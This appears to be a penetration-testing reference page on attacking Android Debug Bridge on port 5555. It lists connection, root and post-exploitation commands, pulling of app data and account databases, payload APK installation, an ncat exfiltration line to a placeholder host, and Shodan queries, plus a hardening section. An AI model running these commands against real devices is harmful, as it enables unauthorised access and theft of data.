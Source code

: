 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Basic Information

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) is a command-line tool to communicate with Android-based devices and emulators. Typical actions include installing packages, debugging, and getting an interactive Unix shell on the device.

- Historical default TCP port: 5555 (classic "adb tcpip" mode).
- Modern Wireless debugging (Android 11+) uses TLS pairing and mDNS service discovery. The connect port is dynamic and discovered via mDNS; it may not be 5555. Pairing is done with adb pair host:port followed by adb connect. See the notes below for offensive implications.

Example nmap fingerprint:

```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```

## Connect

If you find ADB exposed and reachable, try connecting and enumerating quickly:

```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```

- If the device enforces ADB authentication (ro.adb.secure=1), you’ll need to be pre-authorized (USB RSA auth) or use Android 11+ Wireless debugging pairing (which requires a one-time code displayed on the device).
- Some vendor images, engineering/userdebug builds, emulators, TVs, STBs and development kits expose adbd without auth or with adbd running as root. In those cases, you’ll typically land directly in a shell or root shell.

For a general ADB command reference, see:



{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Quick Post-Exploitation

Once you have shell, validate privileges and SELinux context:

```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```

### Enumerate and capture data

- List third-party apps and paths:
  ```bash
  pm list packages -3
  pm path <pkg>
  ```
- If you have root (adb root or su works), you can access /data directly. If not, prefer run-as for debuggable apps:
  ```bash
  # Without root, for a debuggable app
  run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>
  
  # With root
  cp -a /data/data/<pkg> /sdcard/<pkg>
  exit
  adb pull "/sdcard/<pkg>"
  ```
- Useful system artifacts (root required):
  - /data/system/users/0/accounts.db and related AccountManager data
  - /data/misc/wifi/ (network configs/keys on older versions)
  - App-specific SQLite DBs and shared_prefs under /data/data/<pkg>

You can use this to retrieve sensitive info (e.g., app secrets). For notes about Chrome data considerations, see the issue referenced [here](https://github.com/carlospolop/hacktricks/issues/274).

### Code execution and payload delivery

- Install and auto-grant runtime permissions:
  ```bash
  adb install -r -g payload.apk         # -g grants all runtime perms declared in manifest
  adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
  ```
- Start activities/services/broadcasts directly:
  ```bash
  adb shell am start -n <pkg>/<activity>
  adb shell am startservice -n <pkg>/<service>
  adb shell am broadcast -a <action>
  ```

### Port forwarding and pivoting

Even without root, adb can forward local ports to device ports and vice versa. This is useful to access services bound locally on the device or to expose attacker services to the device.

- Forward host->device (access a device-local service from your host):
  ```bash
  adb forward tcp:2222 tcp:22       # If device runs SSH (e.g., Termux/Dropbear)
  adb forward tcp:8081 tcp:8080     # Expose app’s local debug server
  ```
- Reverse device->host (let the device reach a service on your host):
  ```bash
  adb reverse tcp:1080 tcp:1080     # Device apps can now reach host:1080 as 127.0.0.1:1080
  ```
- File exfiltration over sockets (no sdcard writes):
  ```bash
  # On host: listen
  ncat -lvp 9000 > dump.tar
  # On device: send directory as tar (root or run-as as applicable)
  adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
  ```

## Wireless Debugging (Android 11+)

Modern Android implements TLS-protected wireless debugging with device-side pairing and mDNS discovery:

```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```

Notes
- Ports are dynamic; don’t assume 5555. mDNS service names look like:
  - _adb-tls-pairing._tcp (pairing)
  - _adb-tls-connect._tcp (paired connect)
  - _adb._tcp (legacy/plain)
- If mDNS is filtered, classic USB-assisted enabling may still work on some builds: `adb tcpip 5555` then `adb connect <ip>:5555` (until reboot).

Offensive implications: if you can interact with the device UI (e.g., physical access or mobile MDM misconfig) to enable Wireless debugging and view the pairing code, you can establish a long-lived paired ADB channel without a cable. Some OEMs expose ADB over TCP in engineering/dev images without pairing—always check.

## Hardening / Detection

Defenders should assume any reachable adbd (TCP) is critical risk.

- Disable ADB and Wireless debugging when not needed. Revoke USB debugging authorizations in Developer options.
- Ensure network policy blocks inbound TCP/5555 and mDNS-based ADB discovery on untrusted segments.
- On devices under your control:
  ```bash
  settings put global adb_enabled 0
  setprop service.adb.tcp.port -1   # disable TCP listening (or use: adb usb)
  stop adbd; start adbd             # restart daemon
  ```
- Monitor for mDNS records `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` on corporate networks and alerts for unexpected 5555 listeners.
- Inventory for insecure builds: `getprop ro.debuggable`, `ro.build.type`, and `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"



## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
